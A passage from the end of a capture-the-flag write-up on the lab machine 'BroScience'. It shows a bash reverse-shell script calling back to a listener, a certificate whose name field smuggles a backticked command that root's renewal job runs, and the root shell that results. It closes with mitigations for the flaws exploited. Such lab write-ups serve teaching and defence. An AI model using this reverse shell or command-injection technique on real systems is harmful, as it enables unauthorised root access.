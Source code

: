 The command failed, but I could see that my code was executed.

I created a script to launch a reverse shell.

```bash
bill@broscience:/tmp/tmp.ML5bZVF2Ow$ cat /tmp/tmp.ML5bZVF2Ow/rce.sh
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.14.2/4444 0>&1'
```

Then I created a certificate that would trigger the execution of the script on renewal.

```bash
bill@broscience:/tmp/tmp.ML5bZVF2Ow$ openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout temp.key -out temp.crt -days 1 <<<"CA
QC
MTL
someOrg
Unit
MyName\`/tmp/tmp.ML5bZVF2Ow/rce.sh\`
test@test.com
"

bill@broscience:/tmp/tmp.ML5bZVF2Ow$ cp temp.crt /home/bill/Certs/broscience.crt
```

I copied the script, launched a netcat listener, and waited for root to renew the certificate.

```bash
$ nc -klvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.195] 54574
bash: cannot set terminal process group (2910): Inappropriate ioctl for device
bash: no job control in this shell

root@broscience:~# cat /root/root.txt
cat /root/root.txt
REDACTED
```

## Mitigations

To secure this application, the first step is to remove the `img.php` file. This file is there only to serve images that are already in the webroot. A direct link would work for that.

The code that generates the activation code is vulnerable because it uses the time to seed the random number generation. The documentation to [srand](https://www.php.net/srand) says that it's not necessary to seed it, it's already done automatically. By seeding it with the time, it makes it easy to predict.

The biggest issue with the site was the unserialization of the cookie. Serialization allows executing code on serialization and unserialization. It should never be used on user data. The cookie was storing a single string for the theme. So it would be sufficient to just store the theme in the cookie. And then validate it against an allowed list of themes.
